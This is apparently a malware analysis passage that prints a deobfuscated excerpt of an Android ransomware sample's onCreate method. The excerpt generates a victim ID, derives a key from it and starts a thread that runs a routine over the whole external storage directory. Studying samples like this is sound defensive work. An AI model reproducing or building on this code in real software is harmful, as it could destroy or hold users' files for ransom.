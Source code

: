 The code is quite misleading, so here is a "cleaner" version (names haven't been changed, except for local variables):

> ```java
>protected void onCreate(Bundle paramBundle){
>	ADRTLogCatReader.onContext(this, "com.aide.ui");
>	getWindow().addFlags(8320);
>	this.mP = getApplicationContext().getPackageManager();
>	this.def = new ComponentName(getBaseContext(), "com.android.tencent.zdevs.bah.MainActivity");
>	this.mBazaar = new ComponentName(getBaseContext(), "com.android.tencent.zdevs.bah.QQ1279525738");
>	super.onCreate(paramBundle);
>	setContentView(R.layout.home);
>	instance = this;
>	getSupportFragmentManager().beginTransaction().replace(R.layout.frame_content, new bah()).commit();
>	SharedPreferences prefs = getSharedPreferences("XH", 0);
>	if (!prefs.getString("bah", "").equals("")) {
>		this.xh = prefs.getString("bah", "");
>	}
>	else{
>		this.xh = ("" + ((int)(Math.random() * 1000000) + 10000000));
>		SharedPreferences.Editor localEditor = prefs.edit();
>		localEditor.putString("bah", this.xh);
>		localEditor.commit();
>	}
>	hz = sss.l( /* ... the long string ...*/ ) + this.xh;
>	m = "" + (Integer.parseInt(this.xh) + 520);
>	hzs = hz.length();
>	fi = new File(Environment.getExternalStorageDirectory() + "/");
>	if (prefs.getInt("cs", 0) >= 2){
>		setTitle("Lycorisradiata");
>		getSupportFragmentManager().beginTransaction().replace(R.layout.frame_content, new qq1279525738()).commit();
>		sss.bz(this);
>	}
>	if (prefs.getInt("sss", 0) != 0) {
>		setTitle("Lycorisradiata");
>		getSupportFragmentManager().beginTransaction().replace(R.layout.frame_content, new qq1279525738()).commit();
>		sss.bz(this);
>		setIconSc();
>	}
>	else{
>		new Thread(new Runnable(){
>			@Override
>			public void run(){
>				sss.deleteDir(MainActivity.fi.toString(), MainActivity.m, 1, MainActivity.this);
>			}
>		}).start();
>	}
>}
> ```
